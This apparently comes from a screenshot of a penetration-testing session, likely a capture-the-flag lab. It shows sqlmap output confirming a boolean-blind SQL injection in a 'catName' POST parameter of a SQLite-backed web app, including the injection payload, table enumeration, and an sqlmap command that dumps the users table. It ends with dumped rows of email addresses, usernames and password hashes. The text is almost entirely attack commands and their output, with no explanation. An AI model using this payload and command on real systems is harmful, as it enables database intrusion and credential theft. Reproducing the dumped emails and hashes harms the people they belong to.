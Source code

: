 ```bash
[*] starting @ 20:04:43 /2025-02-08/

[20:04:43] [INFO] parsing HTTP request from 'request'
[20:04:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catId=1&catName=test'||(SELECT 0x6b575974 WHERE 9070=9070 AND 3453=3453)||'
---
[20:04:44] [INFO] testing SQLite
[20:04:44] [INFO] confirming SQLite
[20:04:44] [INFO] actively fingerprinting SQLite
[20:04:44] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[20:04:44] [INFO] fetching tables for database: 'SQLite_masterdb'
[20:04:44] [INFO] fetching number of tables for database 'SQLite_masterdb'
[20:04:44] [INFO] retrieved: 4
[20:04:44] [INFO] retrieving the length of query output
[20:04:44] [INFO] retrieved: 13
[20:04:49] [INFO] retrieved: accepted_cats             
[20:04:49] [INFO] retrieving the length of query output
[20:04:49] [INFO] retrieved: 15
[20:04:55] [INFO] retrieved: sqlite_sequence             
[20:04:55] [INFO] retrieving the length of query output                        
[20:04:55] [INFO] retrieved: 4                                                 
[20:04:57] [INFO] retrieved: cats                                              
[20:04:57] [INFO] retrieving the length of query output                        
[20:04:57] [INFO] retrieved: 5                                                 
[20:04:59] [INFO] retrieved: users                                             
<current>                                                                      
[4 tables]                                                                     
+-----------------+                                                            
| accepted_cats   |                                                            
| cats            |                                                            
| sqlite_sequence |
| users           |
+-----------------+
```

DUMP
```bash
$ sqlmap -r request -p catName --level=5 --risk=3 --dbms=sqlite --dump -T users --threads 10

Table: users
[12 entries]
+---------+-------------------------------+----------------------------------+------------------------------------------------------------------------------------+
| user_id | email                         | password                         | username                                                                           |
+---------+-------------------------------+----------------------------------+------------------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel                                                                               |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa                                                                               |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert                                                                             |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian                                                                             |
```